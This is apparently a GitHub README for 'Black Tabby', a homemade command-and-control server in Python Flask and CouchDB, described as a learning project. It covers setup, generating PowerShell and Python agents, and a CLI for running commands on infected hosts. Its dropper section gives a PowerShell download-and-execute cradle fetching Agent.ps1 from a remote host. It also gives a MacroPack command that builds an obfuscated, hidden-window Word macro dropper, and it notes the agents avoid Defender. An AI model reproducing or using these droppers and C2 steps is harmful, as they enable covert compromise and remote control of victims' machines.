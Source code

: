 # Black Tabby

Black Tabby is a quick C2 Server i created using Python Flask and CouchDB 
the motivation behind this project was to learn more about noSQL databases as well as how C2 server's work on the back end. I ended up learning about JWT as well as thats how the agents keep tokens fresh. 

### Prerequisites
```
Docker
Python3
```
### Setup

After docker and python3 is on your machine all you need to do is clone this repo and run the setup.sh file

```
git clone https://github.com/latortuga71/Black_Tabby.git
cd Black_Tabby
chmod +x setup.sh
pip3 -r install requirements.txt
./setup.sh
```

Then you will be asked to set the username & password for the CouchDB container and it will run on port 5984 of your local machine
It will also ask you for two secrets, a user-agent secret and an agent secret, these are very importing and are used when creating agents
so they can authenticate to your flask server. Which in turn communicates to the CouchDB container

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup1.JPG)

After that has successfully completed run the following command
```
python3 BlackTabby.py
```
You will be asked for the credentials provided as well as the ip address and port that the CouchDB container is running on which should be 127.0.0.1 5984 unless you set this up to run on a different server that the CLI interface will be running on. This will create a view in CouchDB that is neccesary for the CLI to function properly.

## Agents
So far the only agents that can be created through the CLI are python and powershell, i wrote a C# agent that has my loopback hardcoded, as well as the agent secrets if this is edited to suite anyones needs then it can also be used. The C# source folder is [Here](https://github.com/latortuga71/Black_Tabby/tree/master/Agents/C%23AGENT/CSHARPAGENT)

## Droppers
In the DropperStuff folder i was able to create word doc that ran the following code as a way of executing the powershell agent.

```
IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') 
```
I came across [MacroPack](https://github.com/sevagas/macro_pack) which creates and obfuscates dropper files for you go ahead and check it out is pretty awesome. That in conjunction with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a great combo. Below is command i used in macropack specifically.

```
echo "powershell.exe -windowstyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') -WindowStyle Hidden" | macro_pack.exe -t CMD -o -G  cmd.doc
```

## Creating Agents

There is an option on the CLI that allows you to create agents, it will ask you for the ip address and port it will be connecting to. In this case you do not enter the port 5984 which is CouchDB you would enter 9000 which is the flask server.
So if you are running the CLI and Server on same host, you would enter 127.0.0.1 and port 9000. After you will be asked for the two secrets specified during the bash setup script.

## Agent CLI (Work in progress)

Once you have connected to an agent just enter ? to see a list of options
* execute followed by a command will run a command and return the result
```
execute cmd
```
* get_all will return the full database document for that agent
* export json will write the json to a file.
```
export_json /tmp/json_output.txt
```

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup3.JPG)

## Does it trigger antivirus tho?
As far as i know, the powershell and c# agents themselves dont trigger defender.



